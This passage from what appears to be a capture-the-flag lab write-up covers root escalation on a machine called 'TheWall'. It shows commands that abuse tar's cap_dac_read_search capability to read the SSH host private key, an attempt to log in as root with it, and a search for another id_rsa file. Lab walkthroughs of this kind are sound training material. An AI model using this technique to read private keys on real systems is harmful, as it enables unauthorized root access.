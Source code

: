 **Key points:** 
- These are **SSH public host keys**, used by the server for authentication.

![](/assets/images/TheWall-13.png)

**Key points:** 
- `cap_dac_read_search=ep` (on `/usr/sbin/tar`)
	- Allows **bypassing file permissions** (read/search access to all files).
	- Could be used to read sensitive files that normally require root.

>[!Note]
Since the public keys exist, the corresponding private keys almost certainly exist in the same directory.

### 4.2. Escalation to `root`

```bash
john@TheWall:/tmp$ /usr/sbin/tar -czf id_rsa.tar.gz /etc/ssh/ssh_host_rsa_key
john@TheWall:/tmp$ /usr/sbin/tar -xvf id_rsa.tar.gz -C /tmp
etc/ssh/ssh_host_rsa_key
john@TheWall:/tmp$ chmod 644 /tmp/etc/ssh/ssh_host_rsa_key
john@TheWall:/tmp$ cat /tmp/etc/ssh/ssh_host_rsa_key
# Here it is showed thw RSA
```

Copié el contenido de la llave privada a mi máquiina

```bash
❯ ssh -i id_rsa_root root@192.168.0.106
root@192.168.0.106: Permission denied (publickey)
```

I didn't achieve the goal, So...

```bash
john@TheWall:~$ find / -name "id_rsa" 2>/dev/null
/id_rsa
```

Luckily I found another `id_rsa`.

```bash
john@TheWall:/$ ls -l
total 68
lrwxrwxrwx   1 root root     7 Oct 17  2022 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Oct 17  2022 boot
drwxr-xr-x  17 root root  3160 Feb 26 10:00 dev
drwxr-xr-x  72 root root  4096 Feb 26 13:31 etc
drwxr-xr-x   3 root root  4096 Oct 17  2022 home
-rw-------   1 root root  2602 Oct 19  2022 id_rsa
-rw-r--r--   1 root root   566 Oct 19  2022 id_rsa.pub
lrwxrwxrwx   1 root root    31 Oct 17  2022 initrd.img -> boot/initrd.img-5.10.0-18-amd64
lrwxrwxrwx   1 root root    31 Oct 17  2022 initrd.img.old -> boot/initrd.img-5.10.0-18-amd64
lrwxrwxrwx   1 root root     7 Oct 17  2022 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Oct 17  2022 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Oct 17  2022 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Oct 17  2022 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct 17  2022 lost+found
drwxr-xr-x   4 root root  4096 Oct 17  2022 media
drwxr-xr-x   2 root root  4096 Oct 17  2022 mnt
drwxr-xr-x   2 root root  4096 Oct 17  2022 opt
dr-xr-xr-x 149 root root     0 Feb 26 10:00 proc
drwx------   4 root root  4096 Oct 19  2022 root
drwxr-xr-x  18 root root   540 Feb 26 12:46 run
```